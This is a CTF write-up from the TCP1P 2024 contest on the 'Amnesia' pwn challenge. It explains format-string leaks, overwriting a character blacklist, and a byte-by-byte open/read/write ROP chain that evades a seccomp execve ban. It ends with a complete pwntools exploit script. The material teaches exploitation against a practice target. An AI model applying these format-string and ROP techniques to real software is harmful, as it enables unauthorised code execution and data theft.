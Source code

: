 ```yaml
---
title: TCP1P 2024 - Blind
date: 2024-10-12
categories: [CTF, writeup]
tags: [ctf, writeup, TCP1P]     # TAG names should always be lowercase
---
```


<center><h1>TCP1P 2024 - My PWN Write-Ups</h1></center>

This weekend I have been participating solo in the TCP1P CTF 2024. I really enjoyed this CTF. I ended up solving some pretty good challenges and finished in 23rd place. As always, I focused on PWN, and here are my Write-Ups for the best challenges I solved.  

![Puntuacion](https://raw.githubusercontent.com/elchals/elchals.github.io/main/_posts/2024-10-13_Imges/amnesia.png)

## Amnesia
![Amnesia](https://raw.githubusercontent.com/elchals/elchals.github.io/main/_posts/2024-10-13_Imges/Puntuacion.png)

- **Category:** Pwn.  
- **Points:** 221
- **Solves:** 11  
- **Author:** itoid  

## Description
Amnesia is the typical challenge with a vulnerable format string, but with certain limitations to make our life a bit harder. The program has a first format string that accepts up to 188 characters, after which there is a loop that runs infinitely until we decide to terminate the program by writing **I remember everything!**. Inside that loop, there is another vulnerable format string, but it only accepts up to 32 characters. The format strings are checked against a blacklist that prohibits the use of the characters $, p, and x. The file has all the typical protections enabled and the syscalls **execve** and **execveat** are prohibited by seccomp.   
```sh
➜  Amnesia checksec amnesia
[*] '/home/elchals/CTFs/Tcp1p/Amnesia/amnesia'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
```  

I take advantage of the first format string to get all the necessary leaks: Text base, Libc base, and Stack. Since p and $ are prohibited, I have to use %c and %ld.  
With the following format string, I am going to overwrite the blacklist, because since I now only have 32 characters in the format string and can't use $, it becomes impossible to do anything more useful. In the first iteration, I overwrite the $ with any number.  
```py
payload = b'%c%c%d%c%d%c%c%c%c%c%hhn'.ljust(24, b'\x41')
payload += p64(format)
```
And in the second iteration, since I can now use $, I place a NULL byte to disable the blacklist.  
```py
payload = b'%256c%11$hhn'.ljust(24, b'\x41')
payload += p64(format)
```
From now on, since we can use the $, I write a ROP chain starting from the return address of the function to open the flag.txt, read, and write its content. I write it character by character since 32 bytes aren't enough for anything more.  
Finally, by writing **I remember everything!**, I trigger the termination of the program and the execution of the ROP chain.  

## Code
```py
#!/bin/python3
from pwn import *

context.log_level = 'INFO'
context.terminal = ['remotinator', 'vsplit', '-x']
context.arch = 'amd64'

######################################################################################

process_name = './amnesia_patched'
elf = context.binary = ELF(process_name)
libc = ELF('./libc.so.6')

HOST = "ctf.tcp1p.team"
PORT = 20037

######################################################################################

gdb_script = f'''
    breakrva 0x16d5
    continue
    '''

######################################################################################

def connect():
    if args.REMOTE:
        print(f"[*] Connecting to {HOST} : {PORT}")
        p = remote(HOST, PORT)
    elif args.GDB:
        print(f'[*] Debugging {elf.path}.')
        p = gdb.debug([elf.path], gdbscript=gdb_script)
    else:
        print(f'[*] Executing {elf.path}.')
        p = process([elf.path], aslr=False)
    return p

## Write one byte.
def change_byte(addr, b):
    if b == 0:
        b = 0x100
    payload = f'%{b}c%11$hhn'.encode().ljust(24, b'\x41')
    payload += p64(addr)
    print(payload)
    p.sendlineafter(b'remember?', payload)

######################################################################################

p = connect()

## Leaking things
payload  = b'%c' * 2
payload += b'||%ld||'
payload += b'%c'
payload += b'||%ld||'
payload += b'%c' * 35
payload += b'%||%ld||'

p.sendlineafter(b'you?', payload)
p.recvuntil(b'||')
libc.address = int(p.recvuntil(b'||')[:-2]) - (0x70fe15514887 - 0x70fe15400000)
print("[i] Libc Address:", hex(libc.address))

p.recvuntil(b'||')
stack = int(p.recvuntil(b'||')[:-2])
print("[i] Stack:", hex(stack))

rip = stack + (0x7ffcb0edf088 - 0x7ffcb0edea30) 
print("[i] RIP:", hex(rip))

p.recvuntil(b'||')
elf.address = int(p.recvuntil(b'||')[:-2]) - (0x5b435bdd36f7 - 0x5b435bdd2000)
print("[i] .text:", hex(elf.address))

## Overwriting Blacklist
format = elf.address + (0x65066ca92010 - 0x65066ca8e000)    # Blacklist address

payload = b'%c%c%d%c%d%c%c%c%c%c%hhn'.ljust(24, b'\x41')
payload += p64(format)
print(payload)
p.sendlineafter(b'remember?', payload)

payload = b'%256c%11$hhn'.ljust(24, b'\x41')
payload += p64(format)
print(payload)
p.sendlineafter(b'remember?', payload)

## Writing flag.txt to bss section
bss = elf.address + (0x63e12b96f000 - 0x63e12b96b000) + 0x900
print("[i] BSS:", hex(bss))

flag = b'flag.txt\x00'
idx = 0
for b in flag:
    change_byte(bss + idx, b)
    idx += 1

## ROP
context.arch = 'amd64'
rop_libc = ROP(libc)

pop_rsi  = p64(rop_libc.find_gadget(['pop rsi', 'ret'])[0])
pop_rdi  = p64(rop_libc.find_gadget(['pop rdi', 'ret'])[0])
ret      = p64(rop_libc.find_gadget(['ret'])[0])
pop_rdx_rbx  = p64(libc.address + 0x00000000000904a9) # pop rdx ; pop rbx ; ret
pop_rax  = p64(rop_libc.find_gadget(['pop rax', 'ret'])[0])
push_rax = p64(libc.address + 0x0000000000041563) # push rax ; ret
mov_edi_eax = p64(libc.address + 0x000000000012684c) # mov edi, eax ; call rdx

payload  = pop_rdi
payload += p64(bss)
payload += pop_rsi
payload += p64(0)
payload += p64(libc.sym.open)

payload += pop_rdx_rbx
payload += pop_rsi * 2
payload += mov_edi_eax
payload += pop_rsi
payload += p64(bss)
payload += pop_rdx_rbx
payload += p64(0x100) * 2
payload += p64(libc.sym.read)

payload += pop_rdi
payload += p64(1)
payload += pop_rsi
payload += p64(bss)
payload += pop_rdx_rbx
payload += p64(0x100) * 2
payload += p64(libc.sym.write)

idx = 0
for b in payload:
    change_byte(rip + idx, b)
    idx += 1

p.sendlineafter(b'remember?', b'I remember everything!')

######################################################################################

p.interactive()
```
